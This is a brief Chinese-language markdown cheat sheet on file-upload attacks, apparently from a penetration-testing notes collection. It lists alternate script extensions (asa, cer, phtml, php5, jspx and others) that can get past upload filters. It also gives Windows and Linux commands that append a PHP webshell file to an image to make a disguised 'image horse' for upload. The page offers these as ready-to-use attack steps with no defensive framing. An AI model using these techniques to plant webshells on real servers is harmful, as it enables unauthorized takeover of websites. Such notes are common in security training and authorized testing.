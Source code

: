 # 文件上传

## 文件上传之等价扩展名

```shell
asp == asa,cer,cdx
asox == ashx,asmx,ascx
php == php2,php3,php4,php5,phps,phtml
jsp == jspx,jspf
```

## windows下图片马合成

```shell
copy WhatsApp.png /b + webshell.php /a 3.png
解释一下代码
复制当前目录下的 WhatsApp.png 图片和当前目录下的 webshell.php 文件并以ASCII代码的方式合并为 3.png 图片

```



## linux下图片马合成

```shell
cat huaji.jpg shell.php >shell.jpg
```


